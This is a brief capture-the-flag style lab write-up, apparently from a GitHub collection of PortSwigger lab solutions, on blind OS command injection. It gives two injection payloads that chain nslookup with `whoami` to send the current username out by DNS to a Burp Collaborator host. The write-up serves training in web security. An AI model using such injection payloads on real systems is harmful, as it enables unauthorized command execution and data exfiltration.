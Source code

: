 # Lab  5 - Blind OS command injection with out-of-band data exfiltration (Running commands like whoami)

`To solve the lab, execute the `whoami` command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab.`


### Solution - 

Same process as above but add this payload

- ` & nslookup `whoami`.zorh37nyfzjbsg1nog7j9m16zx5ntc.burpcollaborator.net # `

                                      or 

-  ` & nslookup $(whoami).zorh37nyfzjbsg1nog7j9m16zx5ntc.burpcollaborator.net # `

We get the username in the details panel

![image](https://user-images.githubusercontent.com/67383098/225319008-28f90fcf-53d6-4237-b84d-bcd563b8a882.png)





